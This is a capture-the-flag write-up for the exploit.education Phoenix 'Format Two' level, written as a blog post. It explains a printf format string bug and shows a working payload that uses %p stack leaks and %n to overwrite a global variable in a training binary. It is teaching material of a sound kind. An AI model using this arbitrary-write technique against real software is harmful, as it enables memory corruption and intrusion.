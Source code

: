 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x2"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 2

Write-up for: [Format Two](https://exploit.education/phoenix/format-two/)

<!--more-->

This challenge requires us to overwrite a global integer variable `changeme`.

# The bug

Again, the buf is providing user input as the format string to `printf`. This time,
input is provided via `argv[1]` and `printf` is wrapped in a function.

# The exploit

The goal is to write data to a specific address. In order to turn a format string bug into an arbitrary write primitive is by using the `%n` format specifier, which, according to the `printf` `man` page does the following: 

```
The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.
```

So a legitimate use of this specified would be the following:

```C
int numCharsWritten = 0;
printf("Hello World%n", &numCharsWritten);
printf("Number of chars written: %d", numCharsWritten);
```

This code snippet will print out the number of characters written until the `%n` specifier. In order for this to work, `printf` pops the argument from the stack an interprets it as an address. If there is no argument, it just pops the next value of the stack.

To turn this into an arbitrary write, we need a way to provide the value on the stack. Luckily for us, our input string is also stored on the stack, so in order to write to any address, we just need to start our input string with the address we want to write to.

Now we know that the target address is on the stack. However, it is not the first value on the stack (since it is in a different frame). Thus, we first need to figure out the offset of our format string. This can be done by abusing the format string bug to print out the content of the stack:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %p %p %p %p %p %p %p %p %p %p %p %p"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAA 0xffffd75d 0x100 0 0xf7f84b67 0xffffd5a0 0xffffd588 0x80485a0 0xffffd480 0xffffd75d 0x100 0x3e8 0x41414141Better luck next time!
```

As we can see, the `0x41414141` representing the beginning of our string is the 12th value. This means we need to trick printf into thinking the parameter for `%n` comes at the 12th position. On some platforms, you can use the `%NUMBER` modifier to select a specific argument for the subsequent modifier:

```
printf("AAAA%12$p");
```

However, this fails in our case:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %12$p"
Welcome to phoenix/format-two, brought to you by https://exploit.education
Better luck next time!
```

Alternatively, since we have enough space in our buffer, we can just provide 12 arguments:

```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %p %p %p %p %p %p %p %p %p %p %p %n"
Welcome to phoenix/format-two, brought to you by https://exploit.education
Segmentation fault
```

Looks like we're writing to memory! Let's use some address that we can write to:

```
user@phoenix-amd64:/opt/phoenix/i486$ objdump -t format-two | grep changeme
08049868 g     O .bss   00000004 changeme

user@phoenix-amd64:/opt/phoenix/i486$ ./format-two `python -c 'print "\x08\x04\x98\x68"[::-1] + "%p"*11 + "%n"'`
Welcome to phoenix/format-two, brought to you by https://exploit.education
0xffffd7690x10000xf7f84b670xffffd5a00xffffd5880x80485a00xffffd4800xffffd7690x1000x3e8Well done, the 'changeme' variable has been changed correctly!
```

Done :)! To recap, we're looking up the address of the global changeme variable using `objdump`. Then, for our format string, we provide the address as the beggining of our string. Then we pop 4-byte values from the stack using the `%p` specifier until we reach our input (the 12th value). As the last specifier we use `%n` which writes the number of characters written so far to the address specified in the argument. In our case, that's the address of `changeme`.

